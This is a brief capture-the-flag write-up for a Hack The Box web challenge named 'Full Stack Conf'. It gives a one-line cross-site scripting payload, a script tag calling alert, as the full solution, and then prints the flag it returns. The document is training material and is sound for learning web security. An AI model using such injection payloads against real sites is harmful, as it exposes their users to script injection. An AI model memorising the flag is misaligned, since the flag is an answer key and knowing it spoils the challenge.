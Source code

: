 ## Full Stack Conf challenge


for this challenge, only use a simple script alert:

```
<script>alert("xss")</script>
```


and you got the flag:

```
HTB{p0p..p0p..p0p...alert(1337)}
```
